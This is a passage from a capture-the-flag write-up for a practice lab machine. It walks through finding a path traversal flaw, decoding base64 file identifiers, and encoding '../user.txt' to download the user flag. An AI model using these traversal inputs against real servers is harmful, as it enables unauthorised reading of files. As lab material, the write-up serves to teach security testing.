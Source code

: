 
Selecting 'Season 2', the url looks like the server could be potentially vulnerable:

```
https://10.10.10.131/?path=SEASON-2
```

Opening an episode file up in a new tab, we get a new url.

```
https://10.10.10.131/file/U0VBU09OLTIvMDMuYXZp
```

The filename is changed into base64...

```
echo U0VBU09OLTIvMDMuYXZp |base64 -d 
SEASON-2/03.avi
```



<hr width="300" size="10">


Testing the Season2 url for 'path traversal', we find that it is vulnerable.

```
https://10.10.10.131/?path=../
```

![path-trav](/assets/img/lacasadepapel/lacasa-path-trav1.png)


The contents of the directory look like a user home folder. We can see the user flag!

perhaps we can view the flag if we use base64 encoding.

```
echo -n "../user.txt" |base64
Li4vdXNlci50eHQ=
```

This works, and we can download the user flag.
